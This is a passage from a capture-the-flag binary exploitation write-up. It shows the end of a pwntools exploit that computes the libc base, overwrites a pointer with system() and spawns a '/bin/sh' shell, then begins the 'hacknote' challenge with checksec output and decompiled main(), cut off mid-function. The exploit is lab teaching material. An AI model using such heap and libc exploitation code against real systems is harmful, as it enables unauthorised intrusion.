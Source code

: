 ```python

libcbase=atoi_addr-libc.symbols['atoi']
system=libcbase+libc.symbols['system']
dele(3,0x20,p32(system))
p.sendline('/bin/sh\x00')

p.interactive()
```

# <span id="hacknote">hacknote</span>
## checksec
```shell
[*] '/home/giantbranch/Desktop/pwn/hacknote/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
## ida

```c
void __cdecl __noreturn main()
{
  int v0; // eax
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, buf, 4u);
      v0 = atoi(buf);
      if ( v0 != 2 )
        break;
      del();
    }
    if ( v0 > 2 )
    {
      if ( v0 == 3 )
      {
        print();
      }
      else
      {
        if ( v0 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( v0 != 1 )
        goto LABEL_13;
      add();
```